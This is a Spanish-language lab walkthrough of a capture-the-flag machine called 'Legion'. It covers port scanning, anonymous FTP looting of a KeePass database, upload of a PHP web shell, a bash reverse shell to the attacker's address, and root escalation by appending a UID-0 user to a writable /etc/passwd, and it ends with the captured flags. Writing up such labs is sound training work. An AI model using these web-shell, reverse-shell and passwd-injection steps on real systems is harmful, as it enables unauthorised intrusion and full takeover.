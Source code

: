 # Manual de Pentesting - Maquina: **Legion**

## 1. Escaneo de puertos y servicios

### Comando utilizado:

```
nmap -sC -sV -oN nmap-inicial 10.10.50.164
```

### Puertos abiertos:

- **21/tcp (FTP)** — vsftpd 3.0.3
    
- **80/tcp (HTTP)** — Apache httpd 2.4.56
    

---

## 2. Análisis del servicio FTP

### Acceso anónimo:

Se intentó el acceso anónimo:

```
ftp 10.10.50.164
```

- Usuario: `anonymous`
    
- Contraseña: (vacía)
    

Ingreso exitoso. Se listaron los archivos:

```
ls
```

Se descargaron:

```
get key.keyx
get mydb.kdbx
```

Archivos descargados:

- `key.keyx`
    
- `mydb.kdbx`
    

---

## 3. Exploración del servicio HTTP

### Navegación manual:

Acceso mediante navegador:

```
http://10.10.50.164
```

Se visualizó una página inicial simple (`index.html`).

### Fuzzing de directorios:

```
dirb http://10.10.50.164/
```

No se encontraron directorios útiles adicionales en esta etapa.

---

## 4. Análisis del archivo KeePass (.kdbx)

### Herramienta utilizada:

```
sudo apt install keepassxc
keepassxc mydb.kdbx
```

Se cargó la base de datos `mydb.kdbx` utilizando el archivo llave `key.keyx`.

Credenciales obtenidas:

- Usuario: **gfawkes**
    
- Contraseña: **Gunpowder1605Plot**
    

---

## 5. Acceso con nuevas credenciales por FTP

### Conexión:

```
ftp 10.10.50.164
Username: gfawkes
Password: Gunpowder1605Plot
```

Una vez dentro se descubrió el directorio:

- `/secretuploads/`
    

Desde Kali se creó el archivo `shell2.php` con el siguiente contenido:

```
<?php system($_GET['cmd']); ?>
```

Se subió con:

```
put shell2.php
```

### Navegación:

```
http://10.10.50.164/secretuploads/shell2.php?cmd=whoami
```

Conexión obtenida como `www-data`.

---

## 6. Obtención de una Reverse Shell

### Listener en Kali:

```
nc -nlvp 4444
```

### Ejecución de la reverse shell en navegador:

```
http://10.10.50.164/secretuploads/shell2.php?cmd=bash -c 'bash -i >& /dev/tcp/10.8.0.8/4444 0>&1'
```


Cambio de usuario:

```
su gfawkes
# Password: Gunpowder1605Plot
```

**Flag de usuario obtenida:**

```
cat /home/gfawkes/user.txt
218827f3d2ebff25c96af6aa1bcbe1df
```

---

## 7. Escalada de privilegios a root

### Análisis:

Se identificaron archivos escribibles por root con:

```
find / -writable -not -path "/proc/*" -user root 2>/dev/null
```

Entre ellos, se encontró:

- `/etc/passwd`
    

Se verificaron sus permisos:

```
ls -l /etc/passwd
# -rw-rw-rw- 1 root root 1187 Jan  7 17:19 /etc/passwd
```

Se validó su contenido:

```
cat /etc/passwd
```

### Creación de un nuevo usuario root:

Generación del hash (realizada desde Kali):

```
openssl passwd -1 -salt saul Escal4d0r!
# $1$saul$tUZi0uhpKXzJ3Hlt1dSAo0
```

Inyección del usuario en `/etc/passwd`:

```
echo 'saul:$1$saul$tUZi0uhpKXzJ3Hlt1dSAo0:0:0:root:/root:/bin/bash' >> /etc/passwd
```

Cambio de usuario:

```
su saul
# Password: Escal4d0r!
```

Confirmación:

```
whoami && id
root
```

**Flag de root obtenida:**

```
cat /root/root.txt
2e8266e1be13ed5d7defb2d331da7a6e
```

---

## 8. Herramientas utilizadas

- `nmap`
    
- `ftp`
    
- `dirb`
    
- `keepassxc`
    
- `openssl`
    
- `nc (netcat)`
    

---

## 9. Resumen del ataque

1. Acceso anónimo FTP para obtener `mydb.kdbx` y `key.keyx`.
    
2. Crackeo de la base de datos KeePass con `keepassxc`.
    
3. Login FTP como `gfawkes` y descubrimiento de `/secretuploads`.
    
4. Creación y subida de `shell2.php`.
    
5. Reverse shell a Kali.
    
6. Cambio de usuario a `gfawkes`.
    
7. Escalada de privilegios editando `/etc/passwd`.
    
8. Acceso como `root` y captura de ambas flags.